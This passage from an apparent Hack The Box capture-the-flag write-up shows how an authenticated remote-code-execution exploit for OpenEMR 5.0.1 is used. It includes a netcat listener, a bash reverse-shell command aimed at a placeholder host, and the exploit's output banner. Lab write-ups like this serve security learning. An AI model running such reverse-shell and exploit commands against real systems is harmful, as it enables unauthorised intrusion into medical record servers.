And we can see that the openemr_admin password is `xxxxxx`

Once we are logged in, we can see that it is running OpenEMR 5.0.1:

![version](/assets/img/posts/cache/version.png)

## RCE

We find an authenticated RCE exploit for this version on [exploit-db](https://www.exploit-db.com/exploits/45161), we run the script with the path to the login, the username and password, and the command we want to execute, which is a bash reverse shell.

First, set up a listener for the connection:

```bash
finlay@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Then execute the exploit:

```bash
finlay@kali:~/htb/cache$ python exploit.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/LOCAL_IP/LOCAL_PORT 0>&1'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
```
